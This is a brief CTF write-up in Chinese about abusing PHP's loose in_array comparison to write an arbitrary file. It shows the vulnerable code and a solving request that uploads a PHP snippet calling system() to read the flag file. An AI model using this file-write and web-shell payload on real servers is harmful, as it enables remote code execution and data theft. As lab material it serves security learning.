

# 知识点
### in_array
[https://www.php.net/manual/zh/function.in-array.php](https://www.php.net/manual/zh/function.in-array.php)
```php
in_array(mixed $needle, array $haystack, bool $strict = false): bool
大海捞针，在大海（haystack）中搜索针（ needle），如果没有设置 strict 则使用宽松的比较
```
# 思路
```python
<?php

highlight_file(__FILE__);
$allow = array();
for ($i=36; $i < 0x36d; $i++) { 
    array_push($allow, rand(1,$i));
}
if(isset($_GET['n']) && in_array($_GET['n'], $allow)){
    file_put_contents($_GET['n'], $_POST['content']);
}

?>
```
```php
GET ?n=2.php
POST content=<?php system("tac flag36d.php") ?>   
```

